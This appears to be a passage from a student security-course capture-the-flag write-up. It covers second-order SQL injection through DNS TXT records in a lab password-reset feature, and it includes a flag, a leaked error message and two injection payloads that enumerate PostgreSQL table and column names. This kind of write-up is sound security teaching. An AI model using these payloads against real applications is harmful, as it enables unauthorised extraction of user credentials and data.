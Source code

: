 ### Severity
The severity of this vulnerability is quite high as it is possible to exfiltrate data from virtually every data table (although hindered by the speed of the query but this limitation is circumventable), including not only sensitive data but user tables which will likely contain usernames and password hashes and potentially salts.



## sso.ns.agency
COMP6443{0ffcaf65-e80d-4295-a516-451962831f92}
### Description
The application has a in-house dns system which allows a user to add entries for their own ip to dns record. The records can be viewed and modified from `dns.sso.ns.agency`.

By logging in to the application we can see that a request for the dns records of our ip address was made.

Using the dns system, we can redirect our ip to a ip/domain of our choice.

By adding a TXT record to the domain we redirect to, we can test for any potential injections such as sql or xss when the application queries the system or attempts to display the contents of our domain.

By setting up a redirect for our ip to a domain we own and adding a TXT record to that domain with the content as `'`, we get an error when attempting to reset our password:
```
update users set reset_details='Error obtaining A for new.domain.com\n
    Error obtaining NS for new.domain.com\n
    Error obtaining MX for new.domain.com\n
    '', last_reset=%s, reset_actor=%s where email=%s"] \
    [parameters: (datetime.datetime(2019, 3, 12, 10, 9, 53, 495939), \
    '60.227.92.178', 'z5016776@cse.unsw.edu.au')
```
This means we have an sql injection and can use it to extract data.

### Exploitation
In order to exploit this vulnerability, we can set the TXT records to our sqli payload.
We first get the table names by setting our TXT record to:
```
'; update users set reset_details=(SELECT array_to_string(array
(SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES as p
where p.table_schema != 'information_schema' and
p.table_schema != 'pg_catalog'),', ')) --
```
NOTE: The above is entered in one line.

This returns the following tables : `users, dns`.

From the login page's error message, we know that we're after the login details of an admin user : `No login, no flag`.

We dump the columns of the users table using the following:
```
'; update users set reset_details=(SELECT array_to_string(array
(SELECT column_name FROM INFORMATION_SCHEMA.columns
where table_name='users'),', ')) --
```
This returns the following columns `zid, email, password, last_reset, reset_actor, reset_details`.
